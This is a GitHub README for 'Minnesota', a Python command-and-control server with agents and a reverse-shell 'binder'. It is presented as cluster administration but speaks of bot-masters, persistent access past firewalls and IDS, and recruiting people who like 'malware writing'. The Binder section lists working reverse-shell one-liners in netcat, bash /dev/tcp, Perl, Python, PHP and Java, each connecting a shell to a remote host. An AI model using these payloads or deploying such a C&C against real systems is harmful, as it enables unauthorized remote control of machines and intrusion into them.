



# Minnesota V.0.0.3

## <u>What is</u> ?

Minnesota is a __Open-source__ project born with the intent to offer the best solution to __remote control a cluster__ of machines, this software is created on the project of __Darren 'infodox' Martyn__ ( [python-pty-shells](https://github.com/infodox/python-pty-shells) ) . Usually this kind of operation is performed using other software that doesn't allow a __stable multiclient connection__ at time making the control of more computers chaotic and subject to troubles. Minnesota offers a stable __Command & Control TCP server__ to administrate a cluster without any problem.

## <u>How does it work</u> ?

This software is completly written in __Python 2.7__ and can be executed on any __Linux__ machine and __it doesn't require any external library__ , soon will be implemented the __most stable shell on Windows__ too.
The communication between the C&C and the client is performed via __TCP protocol__ and it exploits __pseudo-terminal__ to deploy a shell for the bot-master.

The main heart of the remote command execution is the following : `pty.spawn(...)` , using this syntax the software will generate a separated __PTY instance__ where the user can works without touching all the others local shells.

[Read More about pseudo terminals](https://en.wikipedia.org/wiki/Pseudoterminal)

## <u>Why should you use Minnesota</u> ?

There's no other Python based ultra stable multi connection handler with a multiplatform agent composed by just __3 Kb__, all other reverse shells aren't stable and in the 75% of the cases the user looses the connection hardly gained because of a bug, the other softwares don't serve a __native shell__ for the final user , they just execute the command received and return the output not matter what. After that, from the verson __0.0.3__, Minnesota comes out with an integrated binder that allows to the user to accept connection from almost __ANY__ kind of __REVERSE SHELL__, becoming the little brother of __NETCAT__. 
Minnesota borns to be easy to deploy and to use , from the official repo is necessary to download and configure the handler to get a reverse shell from any machine in few seconds.



Minnesota is a software CLI based, so performing a little trick with SSH or even the same Minnesota the user can access to his own C&C from a simple mobile phone.



## <u>Why Pseudo-Terminal</u> ?

Any kind of other reverse shell written in Python presents a large number of problems about the correct interaction with the remote user. Usually the agent provides to get the remote user command to execute and after launching it in memory it catches the output sending it back to the master; this method is insecure for the stable of the remote shell risking to drop the connection between the agent and the C&C. Minnesota's agent __deploy a PTY shell for the remote user__ in order to use a __completly native CLI to avoid any kind of reject__ by the command execution making the connection __100% stable__.



## <u>Requirements</u>

- Python 2.7

### <u>Install with pip</u>

- git
- colored
- colorama
- requests

## <u>Pre-Deployment</u>
To set up the C&C correctly it's necessary to modify the `server.conf` file. Replace __HOST__ with the machine server IP , usually this is the LAN ip or just `0.0.0.0` to let the server to listen on every ip address available , of course it'll be necessary a port forwading on the main gateway ; now the user need to declaire the port for the reverse shell connection defined as __RPORT__ ,after that replace the __PORT__ and __MAXCONN__ where the last one means the maximum number of connections that the server will accept. 

Of course these settings must be reflected on the agent so in the file `agent.py` must be modified the IP and the PORT by _server.conf_ file. After that the shell uses by default the port (__RPORT for the C&C__) `31337` and it can be modified in both of files `tcp_pty_shell_handler.py` and `tcp_pty_backconnect.py` such as the Ip address but usually the backconnection hostname is the same .

## <u>Server Deployment</u>

From the __0.0.2__ version as been implemented a setup file to allow a faster and simpler deployment than the __0.0.1__, it's enough build the setup with the following command :

`sudo python setup.py build`

And now to install it :

`sudo python setup.py install`

Now the user is able to run __Minnesota__ as binary from every location on the machine just typing in a cmd :

`minnesota`

## <u>Agent Deployment</u>

To start the Minnesota agent is necessary run the bash or bat script , __DO NOT RUN__ directly the agent.py because when the shell is destroyed by the C&C it will keep the connection closed . 
So to start the agent type this in a terminal inside the project folder :

This to make the bash file executable:

`chmod +x handler.sh` 

And then to start :

`./handler.sh`

Under Windows you can just run the batch file called __`handler.bat`__ located in the same folder of the `handler.sh`

## <u>Usage</u>

The usage of Minnesota is pretty simple , thought to be easy to deploy and to use.
Once the C&C shell is on, there are some commands to administrate the server :

__MINNESOTA CLI COMMANDS__

Command | Description
--------|------------
binder | start a listener to connect to other reverse shells
check updates | check for newer versions
clear | clear the conosole server
exec _< id >_,... <|commandtoexecute|> | execute a command on more clients by client id
exit | exit from the C&C but keep all the clients alive
history | print all the commands executed in the C&C
help | print the help menu
info | show running software version and credits
interact _< id >_ | spawn a shell on the machine identified by client id
kill _< id >_,...| kill the client by client id. For more kills separate each id with comma
list | print all connections established with their client id
restart _< id >_,... | restart the agent by client id . For more restart separate each id with comma
start server | start the server to listen for connections
stop server | shutdown the server and close the connections without exiting
status | show the current server status
update | update the software to the lastest version available


__<u>BINDER</u>__ 

__Details__ : By running this command the user will be able to enter the host and the port to listen and wait for a reverse shell both compatible on Windows and Linux, this function has been meant because sometimes it's impossible to download the agent for infinite reasons ( Firewall , IDS , ... ) so there're several options to access to a remote system but keep in mind that right now ( Version 0.0.3 ) when the shell without Minnesota agent gets closed it can't be reopened in anyway.

One method to gain a persistent shell in a remote system is to download Minnesota repo using __WGET__ or __GITCLONE__ and run the __./handler.sh__ editing it from the __NANO__ or __VIM__ editor .

__NOTE THAT THE BINDER IS <u>NOT COMPATIBLE WITH NETCAT SHELLS</u>__, this because Netcat could open a shell to be fully compatible with Minnesota handlers but the syntax to do this is the following :

```
nc -e /bin/sh 10.0.0.1 1234 # Linux
nc -e cmd.exe 10.0.0.1 1234 # Windows
``` 
And not all versions of __Netcat__ have the `-e` argument so this could cause instability and troubles so it __ALWAYS BETTER__ using __BASH__ or __BATCH__ shells that the native Os will launches without any problem :


### <u>BASH & BATCH</u>

```
bash -i >& /dev/tcp/127.0.0.1/31337 0>&1    # Linux   - Tested full working -
cmd.exe >& /dev/tcp/127.0.0.1/31337 0>&1    # Windows - Tested full working -

```

If for some reasons the user preferers to launch other shells to integrate some other code , here are reported some other shells [Read more about other Reverse Shells](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

### <u>PERL</u>

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};  # Linux

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("cmd.exe");};     # Windows

```

### <u>PYTHON</u>
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' # Linux

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["cmd.exe"]);'      # Windows
```

### <u>PHP</u>
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");' # Linux
php -r '$sock=fsockopen("10.0.0.1",1234);exec("cmd.exe <&3 >&3 2>&3");'    # Windows
```

### <u>JAVA</u>
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor() //Linux

r = Runtime.getRuntime()
p = r.exec(["cmd.exe","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor() //Windows

```

The CLI is composed by a main value where it's reported the attual number of clients connected :

`mnstconsole( NUMBER OF CLIENTS CONNECTED ) $:`

This feature is integrated from the version __0.0.3__ and it allows to the user to get instantly the number of connections available.

## <u>Logs</u>

__Version 0.0.3__: 
- __Added universal binder to interact with other shells without Minnesota Agent ( netcat little brother )__.
- __Verified full working tunnel to user from company intranet unaccessable from outside__.
- __Added Windows compatible reverse shell compiled x64 bit and .C source__.
- __Verified failover handler reconnection after timeout__.
- __Added Windows compatible shell handler__.
- Added `*` in multi execution command syntax to perfom the command on __ALL CLIENTS__.
- Added `reboot` server function to close fast all connection and restart the server.
- Added `update` function to upgrade Minnesota from official git repo.
- Added `exec` command to forward a command to multiple clients.
- Added routine to notify to user if the connection dropped.
- Added more __control__ commands .
- Fixed bug on connection restore after restarting the server.
- Fixed bug on list when destroying shell on client.
- Modified and implemented GUI colors and styles.
- Implemented minor functions.
- Stress tested.

__Version 0.0.2__: 
- __Connection handler inside PTY shell , if C&C crashes the Agent quits and retries the connection__.
- Added `setup.py` for a fast and better deploy.
- Added RPORT to `server.conf` file.
- Added `restart` command for agent.
- Modified GUI colors and styles.
- Fixed CLI bugs.


## <u>Responsability</u>

This project is meant for a __LEGAL__ purpose and the creators don't get any responsability by the use of other users, legal or illegal .

# Thanks

Thanks to __Darren 'infodox' Martyn__ for sharing a collection of pty shell , without his repo this project wouldn't exists.

# Author 

Spaceb4r - Spacetech

# A Message For You

Are you a good programmer ? Do you like malware writing ? Email us to join us and let's create powerful software togheter.


